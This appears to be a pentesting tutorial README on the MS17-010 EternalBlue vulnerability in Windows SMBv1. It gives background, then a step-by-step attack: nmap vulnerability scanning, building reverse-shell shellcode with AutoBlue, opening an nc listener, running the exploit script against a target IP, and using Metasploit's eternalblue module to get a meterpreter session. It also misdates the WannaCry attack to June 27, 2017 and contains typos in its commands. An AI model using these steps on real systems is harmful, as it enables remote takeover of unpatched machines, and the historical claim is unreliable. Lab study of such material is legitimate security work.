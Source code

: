 # MS17-010 EternalBlue Exploit

- **EternalBlue (MS17-010/CVE-2017-0144)** is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.

- The EternalBlue exploit was developed by the **NSA (National Security Agency)** to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the **Shadow Brokers** in 2017.

- The EternalBlue exploit takes advantage of a vulnerability in the Windows **SMBv1 protocol** that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.

- The **EternalBlue** exploit was used in the **WannaCry** ransomware attack on **June 27, 2017** to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.

- This vulnerability affects multiple versions of Windows:
  - Windows Vista
  - Windows 7
  - Windows Server 2008
  - Windows 8.1
  - Windows Server 2012
  - Windows 10
  - Windows Server 2016
    
- Microsoft released a patch for the vulnerability in **March 2017**, however, many users and companies have still not yet patched their systems.

- The **EternalBlue exploit** has a **MSF auxiliary module** that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.

- The **EternalBlue exploit module** can be used to exploit vulnerable Windows systems and consequently provide a **privileged meterpreter session** on the target system.

- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing **publicly available exploit code**.
----
# Tools & Environment

- **AutoBlue-MS17-010**: [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
- **Target system**: Windows 
- **Penetration Testing distribution**: Kali Linux or Any linux
----

<h2>Pratically</h2>
Scan With Nmap
<code>sudo nmap -sV -p 445 -O {ip}</code>
or 
<code>sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 {ip}</code></br>
Now, Clone tool AutoBlue-MS17-010</br>
and Install it properly including requirements.txt</br>
then </br>
<code>cd shellcode</code></br>
<code>chmod +x shell_prep.sh</code></br>
<code>./shell_prep.sh</code></br>
It will ask (y/n): y</br>
LHOST: your IP</br>
LPORT: 1234 or any for both x64 x86</br>
then 1 and 1 for both options </br>
<h3>Setup nc listner</h3></br>
<code>nc -nvlp 1234</code></br>
Note: you can use exploit according to version of windows you are targetting Now i will target window7</br>
<span>If it has not executable permission then provide them </span></br>
<code>chmod +x eternalblue_exploit7.py</code></br>
<code>python eternalblue_exploit.py {ip} shellcode/sc_x64.bin</code></br>we can you X64 orX86 according to operationg system</br>

<h3>Exploiting this with metasploit</h3></br>
 <code>msfconlole</code></br>
 <code>search eternalblue</code></br>
 <code>use  exploit/windows/smb/ms17_010_eternalblue</code></br>
 <code>show options</code></br>
 <code>set RHOST {ip}</code></br>
 <code>exploit</code></br>
 now we will get meterpreter session

